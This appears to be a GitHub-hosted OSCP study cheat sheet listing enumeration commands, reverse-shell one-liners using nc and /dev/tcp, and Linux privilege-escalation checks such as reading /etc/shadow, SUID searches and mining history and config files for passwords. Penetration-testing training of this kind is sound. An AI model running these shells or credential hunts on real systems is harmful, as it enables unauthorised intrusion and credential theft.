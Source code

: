 # OSCP

## Enumeration Tools

- Nmap
  ``` 
  nmap -sC -sV <ip>
  ```
- Gobuster
  ``` 
  gobuster dir -t 50 -x php,html -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <ip>
  ```
- enum4linux 
  ```
  enum4linux -a <ip>
  ```

## Shells

- Ways to get shell
  ```
  nc <ip>:<port> -e /bin/bash
  bash -i &>/dev/tcp/<ip>/<port> <&1
  ```
- Catch Shell
  ```
  nc -lvnp <port>
  ```

## Privilege Esclation

- Service Exploit
  ```
  service --status-all
  pstree
  ```
- File permissions
  ```
  /etc/passwd
  /etc/shadow
  /etc/crontab
  /etc/cron.d/*
  ```
- Sudo 
  ```
  sudo -l 
  > then use https://gtfobins.github.io
  ```
- Cron
  ```
  cat /etc/crontab
  > Look for jobs and files that are being ran
  > Also look for the PATH variable to see if there is any realtive directory files and a path directory you can write to
  ```
- SUID 
  ```
  find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
  > Look for know exploits, Shared Object Injection, and /usr/bin/systemctl
  ```
- Command History 
  ```
  cat ~/.*history | less
  ```
- Config files
  ```
  ls -la /home/<user>/
  > Look for .ssh and other config-type filese that could contain password or hashes
  ```
- Kernel Exploits
  ```
  uname -a
  ```

## Other

- Other People Lists
  ```
  https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e
  ```
